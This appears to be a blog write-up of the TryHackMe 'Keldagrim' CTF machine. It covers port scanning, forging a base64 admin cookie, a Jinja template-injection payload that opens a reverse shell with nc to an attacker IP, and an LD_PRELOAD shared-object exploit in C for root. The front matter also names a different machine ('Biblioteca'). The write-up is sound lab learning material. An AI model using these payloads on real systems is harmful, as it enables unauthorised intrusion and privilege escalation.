 ```yaml
---
title: "Keldagrim WriteUp"
categories: [ctf]
date: 2022/07/22
description: TryHackMe Biblioteca WriteUp.
---
```

# TryHackMe | Keldagrim

Hello everyone,

I will explain the solution of the medium level machine as clearly as i work.

<p align="center">
  <img src="/img/keldagrim_thm/loky.png">
</p>

Let's first scan for open ports and services with nmap.

```bash
sudo nmap -sSCV 10.10.211.169 -T4 -v
```

<p align="center">
  <img src="/img/keldagrim_thm/0.png">
</p>

The web application is running on port 80 and the ssh service is active. let's switch to web application


<p align="center">
  <img src="/img/keldagrim_thm/1.png">
</p>

here we see a cookie with base64. What happens if we change this?

<p align="center">
  <img src="/img/keldagrim_thm/2.png">
</p>

It looks like there is an admin user and let's try to set our cookie accordingly

```bash
└─$ echo -n Z3Vlc3Q= | base64 -d
guest 

└─$ echo -n admin | base64   
YWRtaW4
```

<p align="center">
  <img src="/img/keldagrim_thm/3.png">
</p>

I've logged into admin. Since I don't understand anything here, I tried to interrupt with the burp suite.

<p align="center">
  <img src="/img/keldagrim_thm/4.png">
</p>

When we decoded the "sales" value, it gave us a result. this is the same result we just saw on the admin page.

```bash
└─$ echo -n JDIsMTY1 | base64 -d
$2,165
```
Two things came to mind here. rce and ssti. I wanted to try the ssti because it made more sense.


<p align="center">
  <img src="/img/keldagrim_thm/5.png">
</p>

I verified it's ssti and created a payload to get the reverse shell.

   {{ namespace.__init__.__globals__.os.popen('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.77.152 8787 >/tmp/f').read() }}

<p align="center">
  <img src="/img/keldagrim_thm/6.png">
</p>


<p align="center">
  <img src="/img/keldagrim_thm/7.png">
</p>


```bash
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
jed@keldagrim:~$
```

I saw that the ps command works with sudo. but also that it belongs to the LD_PRELOAD environment

and I researched for privilege escalation

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

I saved the c codes in the exploit.c file and ran the following commands in the terminal to switch to root session

```bash
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
ls -al exploit.so
sudo LD_PRELOAD=/tmp/exploit.so ps
```

```bash
whomi

cat /root/root.txt && cat /home/jed/user.txt
```

